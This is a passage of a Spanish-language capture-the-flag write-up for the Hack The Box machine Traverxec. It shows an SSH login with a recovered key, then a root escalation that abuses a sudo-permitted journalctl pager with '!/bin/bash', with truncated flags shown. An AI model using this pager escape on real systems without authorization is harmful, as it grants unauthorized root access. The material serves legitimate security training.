 Teniendo esto, nos conectaremos con:

```
ssh -i id_rsa david@10.10.10.165
```

```
david@traverxec:~$ cat user.txt 
83236acab8051f...
```

Y ya tendríamos la user flag.

## Escalada de privilegios

Ahora somos el usuario **david**, buscando un poco, vemos el directorio `/bin` dentro de la propia carpeta del usuario, el cual contiene el siguiente script:&#x20;

```
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
<strong>/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat 
```

Si ejecutamos el ultimo comando podremos ver los 5 últimos logs del **journalctl**, el cual se ejecuta con permisos root. Si lo ejecutamos normal, no pasa nada:

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Tue 2025-06-10 11:20:30 EDT, end at Tue 2025-06-10 16:25:37 EDT. --
Jun 10 11:20:31 traverxec systemd[1]: Starting nostromo nhttpd server...
Jun 10 11:20:31 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start: No such file or directory
Jun 10 11:20:31 traverxec nhttpd[487]: started
Jun 10 11:20:31 traverxec nhttpd[487]: max. file descriptors = 1040 (cur) / 1040 (max)
Jun 10 11:20:31 traverxec systemd[1]: Started nostromo nhttpd server.
```

Pero si hacemos la terminal lo suficientemente pequeña para no ver todas las lineas, nos saldrá un inpuit. En el si ponemos `!/bin/bash` obtendremos una shell root, en la que podremos ver la flag:

```
root@traverxec:~# cat root.txt 
35deb653549ab2...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/217)

---